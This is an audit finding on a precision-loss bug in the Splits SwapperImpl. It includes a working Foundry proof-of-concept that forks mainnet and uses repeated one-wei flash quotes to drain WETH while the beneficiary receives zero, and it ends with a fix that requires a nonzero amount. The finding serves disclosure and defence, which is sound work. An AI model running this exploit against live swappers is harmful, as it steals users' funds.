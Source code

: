 7siech

medium

# Steal funds from swapper due to loss of precision

## Summary

It is possible to steal funds from a swapper due to loss of precision.

## Vulnerability Detail

The `SwapperImpl` uses the `oracle` to determine the `amountsToBeneficiary` amount. In the special case of the `base` token being equal to the `quote` token, the oracle is skipped and the amount is calculated directly [1].

Depending on the underlying tokens and the `scaledOfferFactor`, it is possible for this calculation to return zero resulting in the `swapper` transferring tokens without requiring any `tokenToBeneficiary` in return.

[0] https://github.com/sherlock-audit/2023-04-splits/blob/main/splits-swapper/src/SwapperImpl.sol#L231
[1] https://github.com/sherlock-audit/2023-04-splits/blob/main/splits-oracle/src/UniV3OracleImpl.sol#L258

## Impact

An attacker can drain a swapper without the beneficiary receiving any value. Depending on the configuration of the Swapper, this could be economically viable.

## Code Snippet

Proof of concept demonstrating the attack using `WETH9` and a `defaultScaledOfferFactor` of `99_00_00` -

```Solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.17;

import "forge-std/Test.sol";

import "splits-tests/base.t.sol";

import {ERC20} from "solmate/tokens/ERC20.sol";
import {SafeTransferLib} from "solady/utils/SafeTransferLib.sol";
import {TokenUtils} from "splits-utils/TokenUtils.sol";

import {IUniswapV3Factory, UniV3OracleFactory} from "splits-oracle/UniV3OracleFactory.sol";
import {OracleImpl, QuotePair} from "splits-oracle/OracleImpl.sol";
import {OracleParams} from "splits-oracle/peripherals/OracleParams.sol";
import {UniV3OracleImpl} from "splits-oracle/UniV3OracleImpl.sol";

import {ISwapperFlashCallback} from "../src/interfaces/ISwapperFlashCallback.sol";
import {SwapperFactory} from "../src/SwapperFactory.sol";
import {SwapperImpl} from "../src/SwapperImpl.sol";

contract Trader is ISwapperFlashCallback, Test {
    // flash callback
    function swapperFlashCallback(address tokenToBeneficiary, uint256 amountToBeneficiary, bytes calldata data) public {
      assertEq(amountToBeneficiary, 0);
    }
}

contract Audit is BaseTest {
    using SafeTransferLib for address;

    address owner = address(0x100);
    address beneficiary = address(0x101);

    address wethWhale = address(0xF04a5cC80B1E94C69B48f5ee68a08CD2F09A7c3E);

    UniV3OracleFactory oracleFactory;
    OracleImpl oracle;
    OracleParams oracleParams;

    SwapperFactory swapperFactory;
    SwapperFactory.CreateSwapperParams createSwapperParams;

    uint256 totalEth;
    SwapperImpl public swapper;

    function setUp() override public {
        // fork mainnet
        vm.createSelectFork("mainnet");

        vm.startPrank(owner);
        // oracle
        oracleFactory = new UniV3OracleFactory({
            uniswapV3Factory_: IUniswapV3Factory(UNISWAP_V3_FACTORY),
            weth9_: WETH9
        });
        UniV3OracleImpl.InitParams memory initOracleParams = UniV3OracleImpl.InitParams({
                    owner: owner,
                    paused: false,
                    defaultFee: 5_00,
                    defaultPeriod: 30 minutes,
                    defaultScaledOfferFactor: 99_00_00,
                    pairOverrides: new UniV3OracleImpl.SetPairOverrideParams[](0)
                });
        oracle = oracleFactory.createUniV3Oracle(initOracleParams);

        oracleParams.oracle = oracle;

        swapperFactory = new SwapperFactory();
        createSwapperParams = SwapperFactory.CreateSwapperParams({
            owner: owner,
            paused: false,
            beneficiary: beneficiary,
            tokenToBeneficiary: ETH_ADDRESS,
            oracleParams: oracleParams
        });
        swapper = swapperFactory.createSwapper(createSwapperParams);
        vm.stopPrank();

        vm.label(address(swapper), "Swapper");
        vm.label(address(swapperFactory), "SwapperFactory");
        vm.label(address(oracle), "Oracle");
        vm.label(wethWhale, "WethWhale");
        vm.label(WETH9, "WETH9");
        vm.label(beneficiary, "Beneficiary");

        totalEth = 500_000 ether;

        vm.prank(wethWhale);
        WETH9.safeTransfer(address(swapper), totalEth);
    }

    function testStealFunds() external {
        Trader trader = new Trader();

        uint total = 60_000;

        OracleImpl.QuoteParams[] memory quoteParams = new OracleImpl.QuoteParams[](total);
        uint128 amount = uint128(1);
        OracleImpl.QuoteParams memory qp = OracleImpl.QuoteParams({
                quotePair: QuotePair({base: address(WETH9), quote: ETH_ADDRESS}),
                baseAmount: amount,
                data: ""
            });
        for (uint i; i < total; ++i) {
            quoteParams[i] = qp;
        }

        uint balanceBefore = ERC20(WETH9).balanceOf(address(trader));

        vm.prank(address(trader));
        swapper.flash(quoteParams, "");

        uint balanceAfter = ERC20(WETH9).balanceOf(address(trader));
        assertTrue(balanceAfter > balanceBefore);
        assertEq(balanceBefore, 0);
        assertEq(total, balanceAfter);
    }
}
```

## Tool used

Manual Review

## Recommendation

Require `amountsToBeneficiary` to be greater than zero.
